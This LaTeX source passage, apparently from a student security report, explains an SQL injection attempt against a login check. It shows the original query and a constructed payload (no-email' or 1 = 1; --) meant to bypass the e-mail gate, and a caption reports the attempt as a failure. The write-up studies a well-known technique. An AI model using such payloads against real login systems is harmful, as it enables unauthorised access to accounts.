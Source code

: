 \documentclass{article}
\begin{document}
\begin{listing}[!htp]
\begin{verbatim}
SELECT * 
FROM `account` 
WHERE `email`=%s;
\end{verbatim}
\caption{Partial SQL for login check}
\label{listing:sql}
\end{listing}

To apply the SQL injection method, we can construct a malicious
string by adding an extra logic operator to pass the gate of the E-mail checker. The constructed SQL command is \ref{listing:constructedSQL}.
\begin{listing}[!htp]
\begin{verbatim}
SELECT * 
FROM `account` 
WHERE `email`='no-email' or 1 = 1; --';
\end{verbatim}
\caption{Constructed SQL}
\label{listing:constructedSQL}
\end{listing}

Due to the \verb|%s| in the checker gate SQL, Python will add a pair of apostrophes surrounding the user E-mail. Then we construct a string containing a close apostrophe after \verb|no-email| and use \verb|--| to comment out the ending apostrophe generated by the Python string. [see \ref{fig:sql-inj}] Then for the malicious string \ref{listing:maliciousString}, it should cancel the E-mail checker gate and let the model return a response rather than the \verb|account_not_registered|.

\begin{listing}[!htp]
\begin{verbatim}
no-email' or 1 = 1; --
\end{verbatim}
\caption{The malicious string for SQL injection}
\label{listing:maliciousString}
\end{listing}

\begin{figure}[!htp]
    \centering
    \includegraphics[width=0.6\textwidth]{sql-inj.png}
    \caption{\label{fig:sql-inj}Failure applied of SQL injection}
\end{figure}
\end{document}

